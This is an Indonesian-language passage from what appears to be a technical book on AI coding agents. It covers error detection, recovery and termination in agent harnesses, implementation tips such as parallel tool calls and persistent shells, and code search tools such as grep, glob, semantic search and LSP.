Ragam problem kerusakan jenis ketiga justru tak menyuguhkan kode galat (error) secuil jua serta ia menitahkan mekanisme mandiri dalam rupa **pemantauan nyala-kehidupan dan integritas diri (liveness and integrity monitoring)**. Varian mematikan tiada tara di dalam kanal bergelombang *streaming* sesungguhnya bukanlah koneksi yang mendadak tumbang (yang refleks mengeluarkan pesan galat di tempat), namun berupa berhentinya pasokan di keheningan seketika (*silent stall*)—koneksi diam-diam tetap tehubung, akan tetapi urat nadi transmisi tak ada satu pun yang menetes, sungguh serupa selang perpipaan utuh namun air berhenti merembes. Mekanisme tenggat SDK (*SDK timeout*) lumrahnya berjaga dari saat penyambungan, bukan masa ketika suplai tercurah (*transfer process*), dan ini menyebabkan Agen-Produksi mensyaratkan mekanisme penilik-jeda independen (*an independent idle watchdog*/watchdog timer—apabila tak ada pasokan (output) anyar sampai suatu *interval* telah melampaui (set interval), lintasan kanal tersebut auto-disemat label 'macet' atau stalled) lalu lantas segera mencerabut (kills) kaitan yang mangkrak itu dan menerbitkan aksi *retry* seiring waktu (*upon timeout*). Segala penjabaran tadi menjadi kesatuan yang mengkristal (generalizes) ke dasar esensial: **tiap-tiap jalur ketersambungan *long-lived connection* pasti sangat membutuhkan isyarat kehidupan (liveness signal), di luar sekedar batas penyelesaian koneksitas (connection timeout)**. Mekanisme penjagaan integritas menyasar di tataran perwajahan struktural trayektori: setiap didapati anomali dari pemanggilan-Tool (*tool call*) yang ditinggalkan dari pasangannya *result message*, skema rekayasa memulihkan/menambal *pairing* kaitan ganda itu persis sesaat menyuntikkan muatan-konteks (context), bukannya melemparkan keping kejanggalan sistem (structural anomaly) tadi langsung kemuka pihak model, maupun pihak penggunanya. Sedikit ulasan memukau mengenai detil mekanikal ini (engineering detail): Beberapa perupa peranti Agen-produksi sanggup menghela dua moda dwimuka bersamaan di level-atas yakni *production mode* dengan laju pengayaan kumpulan materi-kawah (training-data collection)—Pada tingkat Produksi Agen mampu memoles serpihan kejanggalan tanpa masalah (*patch missing messages with placeholders*), kebalikannya saat masuk arena *training mode* ia justru enggan menambal otomatis (refuse to repair), mengingat selipan material tambahan-buatan (*synthetic placeholders*) otomatis dapat merusak/menajisi racikan kemurnian pangkalan training datanya. Standar dwi rupa (dual standard) ala "luwes waktu produksi, galak pada kancah Training" sebetulnya menyiratkan besaran tingkat ikatan batin nan rumpang di kubu Harness dengan model training itu sendiri.

**Pemulihan: jenjang tindakan dari senyap ke arah memuncak visibilitasnya (escalate through increasingly visible stages).** Skala penanggulangan (recovery measures) di pilah menanjak sejalan (graded) sedari kasat mata maupun seberasa terangnya nampak oleh end-User; jikalau level bawah dirasa ampuh dalam membereskan perkara, tidak sepantasnya memantik hal itu memuncak berlanjut:

1. **Pengulangan sunyi (Silent retry)**. Jurus pamungkas dan wajar buat menangani deret masalah ber-golongan *retryable*. Serta sepasang poin kecil menjadi pengukur tingkat probabilitas tembus keberhasilan atas *retry*: perhatikan jeda (*exponential backoff with random jitter*) buat meredam agar serbuan bertumpuk armada sistem pengakses klien tak memantik beruntunnya efek kegagalan sistem (*secondary congestion*) sembari harus beriring patuh bagi tempo rujukan pihak sentral/Server; selanjut-nya, pisahkan tegas klasifikasi mana yang di depan mata (foreground) atas aksi samar di dalam (background calls)—galat (failed) pada rute lintasan sentral (*main-loop*) sah untuk segera di retry kembali, kebalikannya, buat golongan penunjang sisipan di latar (background calls/semacam pembuat Judul-auto (title generation), asupan-anjuran dari input (input suggestions)) sontak digagalkan saat error tiba (dropped on failure), tak elok manakala tumpukan *background retries* memonopoli celah jatah dari *main loop*, sampai menyebabkan amplifikasi kegagalan beruntun (*retry amplification*).
2. **Turun tahta dan merangsek maju (Degrade and continue).** Dikala jurus retry punah bertumbang (fails), seka usapan wujud permintaan sejati-nya lalu gebrak laju (try again) menyusul lagi. Simak pada fenomena pemenggalan asupan/output (output truncation/limit luapan yang mencerai-berai): langkah senyap perdana tentu menyodorkan asupan pembaruan berwujud kuota tertinggi untuk dikembalikan; mana kala ia kekeuh dan bandel (masih belum meluap penuh juga), sematkan meta-instruksi pamungkas dibagian ekor surat (the end of the message) sehingga gerbang si model pun senantiasa sadar, "tambahkan sisa (generasi) mulai titik terakhirmulah kawan (from the breakpoint)". Tatkala tumpuan utama sedang bertarung dengan pelik dan berlama-lama sesak nafas kelebihan asupan (*persistently overloaded*), mundurlah dan labuhkan cadangan untuk menjamu sang model pendampingnya (another model), selimuti sembari melepaskan sekutu asing kepemilikan paten susunan lama yang terwaris sejarah si pendahulunya (proprietary formatting blocks), seakan melucuti supaya kawan terbarunya lancar mereguk serta menterjemah seutuhnya (*parse it*); lalu dikala beban jalur tinggi mulai dihambat lajunya (*rate-limited*), mundurlah diam-diam singgah menuju gerbang standar.
3. **Dimunculkan Ke Muka Pengguna (Surface to the user).** Seketika hanya manakala setiap amunisi automatisasi telah ludes diputar hingga tetes pungkas lah sebuah tampilan (error) diizinkan bertengger ke hadapan muka—lengkap bersamaan catatan pertempuran penumpasan *recovery* apa sajakah yang bergelora sudah ditindakkan padanya.

Segelintir penyimpangan-Lapis (Tool-layer) sanggup digeser pada jalan memintas nan khas bedanya: **Jangan sesekali bunuh sesi percakapan-mu itu; Balutlah sisa error menjelma (turn the error) bagai makanan empuk buat asupan modelnya secara utuh (model's input).** Kasta dari pemanggilan semu (A hallucinated call) wajib memperoleh wujud balasan lugas beralaskan pesan (structured) error *"Tak Ditemukan Tool Serupa"* (no such tool); kekacauan di uji validasinya (A validation failure) seketika diguyur bonus petunjuk (hints) tentang esensi dari input itu; sementara itu di sektor salah kaprah input argumen (malformed arguments/ketika string mencuat tapi wujud rupa yang diincar sesungguhnya bertipe-object) dibenahi utuh melalui peranti auto (programmatically repaired) sebelumnya melangkah menyodorkan eksekusi utamanya. Serpihan deretan galat (errors) seutuhnya menembus (enter) gelanggang di Konteks selayak asupan sisa tool (tool results) nan jamak pada biasa kalanya, memacu laju supaya model sigap meredam, menyesuaikan perbaikan dari langkah sejati usai memutar lingkar selanjut asupannya (next turn)—yang adalah buah cerminan terang aplikasi prinsip terdahulu yakni *"semakin menterstruktur asupan pengembaliannya (structured the feedback), sebegitu elok lah (better) hasilnya"*: Semakin spesifik detail racikan ralat tertelan umpan balik padanya (fed back), setinggi apalah (higher) persentase pengobatan kemanjurannya secara auto di taraf si-model.

Garis haluan inti untuk bagian ini tertera: **komponen peranti dari balutan *error handling* tiada murni berupa *single request*, akan melainkan merengkuh sekujur lingkar siklus utuh (the entire recovery loop) itu sendiri.** Sampai seketika kesembuhannya diverifikasi memang mustahil direngkuh, asupan error sisipan setengah jalan sama halnya tabu dihidangkan bagi si penyantap nya (consumers)—tak ayal ia adalah pemakai-manusia, entahkah ia sistem kasta hilir (downstream systems) berlanganan berita: Pungut-dan sembunyikan semua pesan galat seiring penempaannya (withhold error messages during recovery); manakala pemulihannya telah mangkus dan sukes, di jamin *consumers*-pun tak bakalan menyadarinya; lalu kapan semuanyalah hancur babak belur, terbelah luruh disaat tiada daya baru dibongkar paksa tumpukan ralat tersebut bebas kelur dari tempat. Fenomena sekujurnya (This is the engineering realization of Chapter 1's correction principle) merupakan pewujudan realistik penjabaran aksi di atas ranah (engineering) penyelarasan prinsip, di nukil sematan kalimat Chapter 1—"haram umbarlah sisa state setengah gantung asalkan belum diverifikasi kepastian tiada tara atas buntunya pintu kelak".

**Pemberhentian: setiap rute kesembuhan mensyaratkan gerbang atap yang mutlak (every recovery path needs a ceiling).** Upaya menyembuhkan *mechanisms* bisa runtuh jua (can fail), dan ini melegitimasi gerbang wajib (must have) batasan pemungkas plafon penahannya (retry ceiling): siklus *context compaction* merelakan langkah pupus selang kegagalan sekian (consecutive failures) beruntun; penyortir lisensi gerbang otorita auto-surut mencetus manusiawi kala (falling back to asking a human) badai rentetan menolak surut; rentetan menyambung produksi output-an (output continuation) telah disyaratkan mati memaku pada seumpama pengulangan semata (fixed number of times). Sedari lubang asal-muasal mana lah ketetapan bilangan di batasan wujud (Where do the thresholds come from)? Produksi nyatanya, jangan bertumpuk pada raba-raba terkaan (guesswork). Ambillah hikayat saklar gerbang *circuit breaker* pemampatan (compaction) kembang biak sistem milik Claude Code: ambang saklek (threshold) "tiga luputan (consecutive failures) melenceng", hal ini bukan isapan jempol, melainkan memancar pada setumpuk statistika *session* sungguhan—Sebuah gerbong satu *session* saja, rupanya dapat kebentur ralat membabibuta hingga mendulang rentetan "Tiga Ribu kali berturut-turut pada rel jalur *recovery* satu itu belaka; perbuatan hampa melolong bergelimangan tanpa jeda itu terbukti menenggelamkan takaran kuota 250 ribu amunisi *API calls* pada tempo per harinya bagi semesta panggung secara sedunia (worldwide); lebih dari itu terdapat kancah 1.000 (thousand sessions) gerbong lebih justru digempur serentak menembus awan *streaks* pada jumlah batas angka-50 di kegagalan *consecutive failures*. Nilai patokan 'Tiga', dipatri kokoh selaku jembatan empunya tikungan kemujuran titik belok (*inflection point*) selang antara "mayoritas luput kegagalan dapat mementalkan dan pulih seketika melampaui sela tempo sebelum titik-itu" ketimbang melesak hampa dan memusnahkan asa jika seandai-kata masih mendobraknya (further retries are essentially hopeless).

Yang tak kalah menyesatkan berbanding wujud sebatas pemutus sirkuit bintik (single-point breaker) jua, merupakan rupa gelombangnya dari **the death spiral (laju terpuruk pusaran pelik spiral mematikan)**: logika meretas tatkala di ujung gerbang (triggered on the error path) tiba-tiba ia tanpa sungkan membangkitkan (calls) ke dalam kubu LLM nya, dan seketika menemui jalan buntu berlipat hancur lagi (fails again), lantas runtuh (cascades). Reruntuhan yang begitu membekas nyata: sistem Sang Agen terkapar dan berhenti (stops) persis seketika tertimpa peringatan bahaya di muatan yang kepenuhan (context-overflow error), dari rentetan itu malahan menarik palang *stop hook* (rancangan *cleanup logic* membersihkan berantakan pada waktu Agen itu musnah) berdalih agar dia sekadar sudi dan niat (commits code on exit), tak terduga-nya lagi tali peranti penjinak jaring itu kembali bersorak menohok pihak (LLM) melongok membuat narasi seuntai pesan rincian catatan (commit message), konteks itu pun lalu pecah (context overflows again), hingga terhempas lagi kaitan sang *hook* ke pelataran berputar. Penangkal perlindungan dipalangkan buat dualisme babak halauan (two parts): lumpuhkan secepatnya ragam racikan di segala aksi penunjang pelengkap dari belahan efek sisipan pengintai (disable all model-invoking side effects) bertengger di jalur perulangan musibah itu (on the error path) (sesal tidak seberapa jika merelakan pemutusan salah sebiji fitur sisipan sesaat, rupa *automatic memory extraction*), serta pasangkan tonggak pengingat (*recursion-depth counter*) demi melacak seutuhnya kemudian dengan jeli memenggal dan memusnahkan bilamana percik sekecil pusaran tertahan tak terpantau jua. Pungkasnya dari segala perangkat permesinan-auto (automatic mechanisms) yang bertahta menduduki atap dari kubu pengawal putusan global penyudahan batas tertinggi ekskalasi gerbang (global termination and escalation conditions) yakni: gerbang bilangan batasan berputar (*maximum number of turns*), batasan batas peredaran-anggaran dalam satuan *session* (*session budget cap*), ditambah pengungsian darurat (*escalation*) menaiki ke jenjang belantara intervensi umat *human* manakala kegagalan secara runut-maraton (*consecutive failures*) rupanya lari melepasi garis batasan ambangnya (the threshold) (Chapter 4 merilis ulasan mendalam pada model tolakan denyut sirkuit saklar *denial circuit breaker*, bak teladan nyatanya).

Kembali menengok ulasan perenungan mendalam sang Bab 1 (thought question), bahwa sesosok Agen bisa menderita dan terkekang pada rantai putaran *loop* sesungguhnya bersumber bukan murni cuman luput tak diumpan oleh persembahan-data (*missing tool results*) tetapi acap didalangi ulah kelalaian serentak *repeated identical tool errors*, luapan *hallucinated calls*, jua pemampatan di kubu si konteks (context compaction) rupanya luput merawat sebongkah (loses) batu permata *key state* nya, maupun malah di kancah perseteruan (an unsolvable task) beban itu benar mentok dan tak tersolusikan. Pengendusan *Detection* bertumpu telak di jalinan pengelompokkan jenis luputan dan deteksi atas iramanya ("error classification + pattern recognition"), dan di ranah kesembuhan obatnya berpacu seiring pengklasifikasian kasta secara eskalatif bertahapnya ("graded escalation"), hingga jembatan penutup (termination) dipancangkan erat "pemutus tenaga di saklar (circuit breakers) + gerbang palang mentok serentak di plafon global ("global ceilings") + pengungsian beranjak menyeret manusiawinya (human escalation)"—di sela rimbunan racikan semua racikan itulah (together) berbuah paripurna pada benteng Harness penangkal lengkapnya menghentikan pameo liar serasa "the Agent might run forever" / si Agen-pun senantiasa dapat dipaksa beroperasi di ranah *infinity*. Secercah kilau intan di apa sejatinya teka-teki pemecahan yang sedang di rengkuh bukan semata sekedar perkara dalih seputar ("insufficient model capability") seumpama tidak cukup cerdik rupa kepiawaian-modelnya itu melainkan (but) jalinan di sektor kekuatan penangkal kokohnya sistem (*system robustness*) di sela tapal-batas pertaruhan sempit itu ("boundary conditions"): para Model AI tak pelak niscaya berangsur senantiasa menggurita melaju dengan semakin mahir (*stronger*), niscaya jaringan jua lah ber-ulah terjatuh (drop), lalu setumpuk sisa eksekusi tersendat tertahan (hang), dan ragam penggunanya tergerak menyodorkan muatan ke-bengal-an anomali (*unexpected things*). Lantas secara mengakar tajam fundamentalnya (*More fundamentally*), **kedigjayaan keterandalan sang Agen itu tiadalah di-patok dari sesering manakah dia meluput menempuh kesalahan, namun lebih ke rupa kepastian kalau disetiap kelas jalinan kerusakan itu sedari asalnya sejatinya terbalut pasti (whether every class of error) oleh pengawal-pendeteksi (detection) serentak pendongkrak langkah mulus (recovery) dan rute penyuci pemungkas hentinya (termination path).**

### Tips Implementasi untuk Agen Pengodean

Alur kerja yang dijelaskan di atas adalah bentuk idealnya. Untuk membuatnya berjalan dalam praktiknya, diperlukan serangkaian teknik implementasi konkret—cara untuk meningkatkan kecepatan respons dan mengurangi konsumsi konteks tanpa menurunkan kualitas pemikiran. Ini adalah teknik Agen umum dari Bab 2 dan 4, yang diterapkan ke dalam domain pemrograman.

**Pemanggilan Alat Paralel, Eksekusi Streaming, dan Cascading Abort.**

Implementasi Agen tradisional sering kali bekerja secara serial: membuat pemanggilan alat, mengeksekusinya, mendapatkan hasilnya, lalu memutuskan langkah berikutnya. Antrean yang kaku ini membuang banyak waktu.

Agen Pengodean modern harus sepenuhnya memanfaatkan respons streaming: Bab 2 memperkenalkan mekanisme ini saat membahas urutan *output* model—segera setelah parameter dari pemanggilan alat pertama sepenuhnya dihasilkan dan lolos validasi, eksekusi dapat segera dimulai, tanpa menunggu model menghasilkan panggilan alat selanjutnya. Misalnya, jika model perlu mengeluarkan tiga panggilan alat dalam satu inferensi—mencari kode, memeriksa file konfigurasi, dan membaca log—panggilan pertama dapat mulai dieksekusi segera setelah parameternya lengkap dan divalidasi, tumpang tindih (*overlapping*) dengan pembuatan dua alat lainnya. Panggilan yang independen juga dapat dieksekusi secara paralel daripada diantrekan. Eksekusi yang tumpang tindih ini secara signifikan mengurangi latensi *end-to-end*, membuat respons Agen menjadi lebih gesit.

Sisi lain dari eksekusi paralel adalah penanganan kesalahan. Setiap definisi alat harus menyatakan apakah ia mendukung eksekusi konkuren (defaultnya adalah tidak, demi keamanan /*fail-safe*). Saat panggilan gagal, mekanisme pembatalan berantai (*cascading abort*) akan menghentikan panggilan lain yang dimulai pada *batch* yang sama yang bergantung pada hasilnya, tetapi tidak memengaruhi panggilan yang independen atau operasi induk—ini adalah implementasi konkret dari prinsip "kontrol batas kesalahan" dari bagian rekayasa Harness.

**Manajemen Konteks Terperinci (Fine-Grained).**

Tantangan mendasar untuk Agen Pengodean adalah bahwa basis kode biasanya besar, tetapi jendela konteks model terbatas. Bahkan jika model canggih mengklaim dapat mendukung jutaan token, memasukkan seluruh basis kode ke dalam konteks tidaklah ekonomis maupun diperlukan. Manajemen konteks yang cerdas perlu beroperasi di berbagai tingkatan.

Pada tingkat pembacaan file, Agen tidak boleh selalu membaca keseluruhan file. Untuk file besar, alat tersebut harus mendukung pembacaan rentang baris tertentu—misalnya, hanya membaca baris 100 hingga 150, daripada memuat file berisi ribuan baris. Yang lebih penting, saat mengembalikan konten, nomor baris harus dilampirkan—setiap baris kode diawali dengan nomor baris aktualnya. Desain yang tampaknya sederhana ini membawa nilai besar: model dapat dengan tepat merujuk ke "baris 42 dari `src/main.py`," mengurangi ambiguitas dan membuat operasi pengeditan selanjutnya lebih dapat diandalkan.

Pada tingkat eksekusi perintah, menangani keluaran terminal juga membutuhkan kehati-hatian. Kompilasi atau pengujian dapat menghasilkan ribuan baris keluaran. Jika semuanya disuntikkan ke dalam konteks, anggarannya akan cepat habis. Pemotongan keluaran yang panjang dan mekanisme persistensi yang diperkenalkan di Bab 4 diterapkan secara luas di sini: pertahankan beberapa baris keluaran pertama (biasanya mengandung konteks kesalahan) dan beberapa baris terakhir (biasanya mengandung ringkasan kesalahan), ganti bagian tengah dengan penampung teks sementara (*placeholder*) satu baris, dan berikan catatan bahwa keluaran lengkapnya telah disimpan ke file sementara untuk dilihat saat diperlukan.

**Penyuntikan Informasi Lingkungan Secara Dinamis.**

Ini merupakan perwujudan terpusat dari teknik status bar Agen dari Bab 2 pada Agen Pengodean. Berbeda dengan Agen umum, Agen Pengodean sangat bergantung pada status dari lingkungan eksekusi. Sebelum setiap inferensi, informasi lingkungan kunci berikut ini harus disuntikkan di bagian akhir konteks dalam bentuk status bar Agen:

- **Direktori kerja saat ini**: memastikan bahwa rujukan jalur (path) adalah benar
- **Git branch**: mengetahui apakah sedang bekerja pada branch utama atau branch fitur
- **Riwayat commit terbaru**: memahami evolusi proyek
- **Ikhtisar perubahan unstaged dan staged**: mengetahui modifikasi apa yang telah dilakukan

Informasi ini tidak boleh di-*hardcode* ke dalam *system prompt* yang statis—hal itu akan menghancurkan efisiensi KV Cache—melainkan harus dihasilkan secara dinamis dan disuntikkan sebagai *status bar* Agen yang ditambahkan (*appended*). Dengan cara ini, Agen memperoleh "kesadaran lingkungan" (*environmental awareness*), yang mana setiap keputusan dibuat berdasarkan pemahaman yang akurat terhadap status saat ini, bukan berdasarkan asumsi yang telah usang.

**Persistensi Status dalam Lingkungan Eksekusi Perintah.**

Saat berinteraksi dengan kode, banyak operasi yang bergantung pada status lingkungan: mengubah direktori, mengaktifkan *virtual environment*, menyetel variabel lingkungan, atau memulai layanan latar belakang (*background services*). Jika setiap perintah dieksekusi di *shell* yang baru, semua status ini akan hilang—Agen baru saja menggunakan perintah `cd` untuk masuk ke direktori proyek, tetapi perintah berikutnya dijalankan kembali di direktori bawaan (default) *shell*, memaksanya untuk mengulangi penyetelan (*setup*) yang sama. Lebih parahnya, dampak dari beberapa operasi (seperti mengaktifkan *virtual environment* Python) hanya valid dalam sesi *shell* saat ini dan tidak dapat diteruskan ke sesi lintas-batas.

Karena itu, sebuah sesi terminal yang persisten harus selalu dipelihara, dibuat saat Agen dimulai dan dibiarkan aktif selama keseluruhan interaksi. Setiap perintah dieksekusi di dalam terminal bersama ini, melestarikan direktori kerja, variabel lingkungan, dan status sesi. Desain ini lebih selaras dengan kebiasaan kerja pengembang dari sisi manusia—kita biasanya bekerja di jendela terminal yang berumur panjang (long-running). Tentu saja, Agen juga harus mempertahankan kemampuan untuk memulai terminal-terminal terisolasi demi mendukung tugas-tugas paralel, tetapi sesi yang persisten haruslah menjadi mode standar (default).

**Mekanisme Umpan Balik Sintaksis Instan.**

Ini sekali lagi mendemonstrasikan nilai berharga dari teknik *status bar* Agen. Setelah Agen mengubah kode, ia tidak perlu menunggu pengguna untuk secara eksplisit meminta pengujian sebelum ia memeriksa sintaksisnya. Pendekatan yang jauh lebih efisien adalah agar lapisan *tool* tersebut menjalankan linter terkait atau alat pemeriksa sintaksis secara otomatis seketika saat proses penulisan file telah usai dan menampilkan hasilnya sebagai bagian dari nilai pengembalian alat (tool's return value) ke si Agen. Jika suatu kesalahan (error) sintaksis berhasil dilacak, sang Agen seketika bakal mengetahui informasi galat tersebut secara mendetail pada putaran inferensi selanjutnya—persis layaknya suatu sistem IDE yang tak butuh waktu lama menandai posisi tanda kurung tak serasi. Rupa umpan balik kilat begini, bakal meluruhkan bobot mahalnya tebusan kesalahan sedemikian signifikan rupa, lantaran Agen niscaya dengan tepat sigap bakal mencegat celah error pada posisi asalnya ketika muncul, yang menghapuskan jeda keharusan uji di saat (*running tests*) penemuan-penemuan titik cacat.

Kelima ramuan penerapan implementasi di atas—secara paralelitas maupun penyalur (*streaming*), pengelolaan ranah *context management*, insting melacak ranah habitat (*environmental awareness*), rupa kemantapan posisinya (*state persistence*), serta respon balik tanggap (instant feedback)—saling merajut jadi pijakan *technical foundation* nan mumpuni (efficient) untuk Coding Agen (Coding Agent). Tumpukan di atas tak semestinya bercerai-berai selaku sebatas serpihan isolasi pengoptimalan melulu, justru hal itu adalah pondasi penyokong *design decisions* kokoh-mengakar yang menyokong sasaran pemungkas: Menyulap Sang Agen bertingkah-polah keluwesan selancar kawan peretas pengembang yang matang (*experienced developer*).
### Alat Pencarian pada Agen Pengodean

Menemukan kode yang relevan dalam basis kode (codebase) yang besar merupakan titik awal bagi pekerjaan Agen Pengodean. Gambar 5-3 membandingkan beberapa alat pencarian yang saling melengkapi, mengilustrasikan bagaimana Agen Pengodean yang mapan seharusnya memilih metode pencarian berdasarkan sifat dari tugas tersebut.



**Pencocokan Konten Regex (Regex Content Matching / grep/ripgrep)**: Metode pencarian paling tradisional, yang memindai konten file baris demi baris untuk mencari kecocokan pola. Ketika Agen mengetahui teks persis yang dicari (nama fungsi, nama variabel, pesan error), alat ini dapat menemukan setiap kemunculannya dengan cepat dan akurat. Kekuatan ekspresif dari *regular expressions* (sintaksis untuk mendeskripsikan pola teks dengan simbol khusus, misalnya `def handle.*` cocok dengan semua definisi fungsi yang diawali dengan `handle`) dapat menangkap pola kompleks—bukan sekadar teks harfiah, tetapi kode yang sesuai dengan struktur tertentu. Praktiknya, pemfilteran jenis file (misalnya mencari hanya pada file Python) dan pemfilteran pola jalur (*path*, misalnya mengecualikan direktori pengujian) juga harus didukung guna mengurangi gangguan (*noise*). Keterbatasan mendasarnya: alat ini hanya menemukan kecocokan tekstual dan tidak memahami semantik sama sekali—pencarian "otentikasi pengguna" tidak akan pernah memunculkan fungsi yang menangani logika *login* namun kebetulan tidak memuat kata "otentikasi".

**Pencocokan Pola Nama File (Filename Pattern Matching / glob)**: Mengabaikan isi konten, hanya menelusuri struktur direktori sistem untuk file yang cocok dengan polanya. Umpamanya, `**/*.test.ts` menjangkau keseluruhan file uji TypeScript secara menyebar, sementara `src/components/**/Button.tsx` melacak letak berkas Button.tsx pada segala tingkat persarangan (depth) naungan area components. Geraknya jauh lebih lincah dibanding raba-konten (tiada beban membongkar serta mendaras teks), inilah jejak langkah permulaan Sang Agen demi menyibak lekuk rangka proyek (project structure)—yang serta-merta membina pemetaan kilat kerangka organisasi (organizational framework) dengan memindai-selidik seluruh jaringan file (file system).

**Penelusuran Kode Berlandaskan Semantik (Semantic Code Search)**: Tak seperti dua varian pengepasan persis (exact matching) sebelumnya, ia menyasar upaya mencerna makna ("meaning") tersembunyi dari pertanyaan serta untaian sintaks kodenya. Hal ini mewajibkannya menuntaskan dua perkara pelik:

- **Pemenggalan Berwawasan Struktur (Structure-Aware Chunking)**: Alur kode berwujud konstruksi tatanan ketat sehingga pemilahannya semestinya mengikuti kesatuan utuh wujudnya (*semantic units*) layaknya struktur fungsinya, class-nya, ataupun metodenya, bukan malah mencincang sekenanya memotong mati jumlah karakter ber-skala tetap (fixed number of characters).
- **Pemulihan Campuran (Hybrid Retrieval)** (Bab 3 merinci jejaring *technology stack* ini): Pemakaian *Vector embeddings* (*dense embeddings*) menonjol sangat elok saat mendulang kerabat kode lewat lajur kemiripan semantik walau ejaannya bergeser (contoh: penyisiran kata "sahkan jatidiri pengguna" bisa mengeruk modul fungsi bernama `check_credentials`), ketika di lain sudut *keyword matching* (pencarian lewat pijakan lafaz layaknya siasat algoritma BM25 bersandar tebaran jumlah term/suku dan sebaran dokumen) sangat sakti membidik kecocokan pasti (precisely matching) terkait penamaan fungsi maupun variabelnya. Keduanya maju berdampingan (parallel), lalu hasil panennya dilebur dan disaring melalui sang *reranker* (wujud sihir sang *cross-encoder* guna merekatkan kelayakan hasil yang didulang dari deret calon hasilnya), pada gilirannya menyumbang liputan sapuan (complementary coverage) nan menyeluruh.

*Semantic search* sungguh pantas ditempatkan pada medan jajakan ekplorasi (exploratory tasks), seperti melacak area per-kode-an sekisar urusan "merajut jembatan interaksi basis-data" maupun area "menggeluti validasi masukan sang user" selagi menyelami *codebase* perawan nan belumlah dirambah (unfamiliar codebase).

Meski begitu, tergambar jurang pedebatan menyolok (clear debate) di kalangan industri mengenai apakah membangun indeks sematan (embedding indices) memang pantas demi kepentingan *semantic search*. Generasi Agen turunan basis *Terminal* semacam sistem Claude Code secara frontal **mengelak keras untuk menciptakan jejak embedding indices** itu, mereka memercayakan utuh pada perpaduan insting cekatan si *agentic* grep + glob yang siap tempur seketika (on-the-fly retrieval)—laku semacam ini praktis mementahkan keruwetan perbaikan indeks manakala *code* senantiasa tumbuh, meluluhlantahkan ongkos beban perawatan infrastruktur indeks tersebut (indexing infrastructure), plus memupus celah rawan pengiriman wujud *code embeddings* terbang menuju sarang layanan-klien pihak tiga. Kebalikannya di kubu perkakas turunan IDE (IDE-based tools) layaknya Cursor memancang layar arun-arah sebaliknya: rela berkorban menyemai bayaran tinggi membentang landasan indeksasi buat meraup kilat wujud memori kelindan antar-berkas (*cross-file semantic recall*), mendayakan jejak *embedding indices* guna meringkus kilat irisan serpihan kerabat bermuatan semantik walau bersalin pelafalan kosa bedanya (differently worded) pada samudera lautan-kode (large codebases). Timbang-menimbang di perempatan rute itu bersandar dari kesudahan timbangan takaran dari "taruhan ongkos penyangga sarana *infrastructure* dan pelarian gerbang (egress) data" berlawan dengan "kesaktian untung memanggil si penelaah-lintas-keping semantika (cross-file semantic recall)."

**Tinjauan Rujukan Berserta Arti Tingkat-Simbol (Symbol-Level Definition and Reference Lookup)**: Gaya laku ini menghisap ilmu turunan kapabilitas bawaan IDE berupa "Menyusuri-Asal (go to definition)" juga "Melacak Seluruh Sebarannya (find all references)" (yang disugestikan via sambungan si LSP, a.k.a the *Language Server Protocol*—jalur titian seragam di antara sang *editor* dengan peranti bedah ulasan (language analysis engines)) memilah jelas asal mula penempaan-wujud (symbol definitions) dengan pemanggilan asupan rujukan (references)—semisal ia jeli menandai raut `authenticate` yang bertahta di jajaran baris ke 42 tak lain selaku perawakan sang definisinya (function definition) sedangkan cetakan rupa baris ke 189 hanya berupa gema pemanggil (a call), sedangkan lacakan gaya *text search* sebatas mampu menjaring barisan tulisan harfiah dari bentangan sang string itu belaka. Daya semacam ini sungguhlah mematikan esensinya buat perkara bedah-restrukturisasi (*code refactoring*)—saat merekayasa-ulang nama sang fungsi (renaming), sungguh mustahil menyandarkannya bulat-bulat sebatas pijakan tilik teks (text search) (sebab sebutan *function* rentan turut menyelinap di antara sebaran baris keterangan-komentar/comments maupun di belukar kepingan *strings*); mengharuskan kerahan si *symbol search* demi membidik mutlak tempat penahbisan/asal (*definition*) berikut tiap sela persinggahan asli dari seluruh penjuru-muasal kumpulannya (actual call sites).

Keempat model alat penyisir ini membentuk perangkat persenjataan (toolbox) penunjang bersilang (complementary) yang di ranah nyatanya lazim di padu-padan berbalut kesatuan taktis: buka gebrak perdana via si *semantic search* mencokok ceruk kelompok *modules* sanaknya (relevant modules), sesudahnya seret turun si mesin pelacak teks regex (*regex matching*) menjebak pasti baris titik kodratnya (*locate specific lines of code*), selanjutnya baru menyertakan lacakan tingkat simbol (symbol search) membuntuti jalur panggilannya (call chain)—suatu urut-urutan pergerakan (progressive strategy) perlahan "berawal borongan meruncing halus, mengkaji makna hingga urat rupa semantik ke sebaran sintaks."

### Alat Edit File pada Agen Pengodean

Kesulitan dari pengeditan file tidak terletak pada operasinya itu sendiri, melainkan pada bagaimana secara efisien dan andal memberi tahu sistem "apa yang harus diubah dan bagaimana mengubahnya" menggunakan LLM. Gambar 5-4 membandingkan lima skema pengeditan file, yang mengilustrasikan ketegangan mendasar antara ekspresi bahasa manusia dan eksekusi presisi mesin.

